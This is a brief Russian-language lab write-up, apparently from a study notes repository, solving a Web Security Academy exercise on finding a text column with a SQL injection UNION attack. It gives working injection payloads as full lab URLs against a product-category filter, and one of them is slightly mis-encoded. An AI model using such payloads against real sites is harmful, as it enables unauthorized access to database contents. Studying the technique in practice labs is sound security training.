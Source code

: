 ## SQL injection UNION attack, finding a column containing text
Нужно заставить базу вернуть текст `gMFpEw`
1. Известно что sql инъекция в фильтрах товара
1. Определяем количество столбцов, выбираемых из базы:
запрос `https://ac831fb71f4d5b6780be5e8700a100aa.web-security-academy.net/filter?category=Corporate+gifts%27%20union%20select%20NULL,%20%NULL%27,%20NULL--` выполняется без ошибок.
1. Подставляем вместо каждого из null поочередно строку "gMFpEw":
решение `https://ac831fb71f4d5b6780be5e8700a100aa.web-security-academy.net/filter?category=Corporate+gifts%27%20union%20select%20NULL,%20%27gMFpEw%27,%20NULL--`
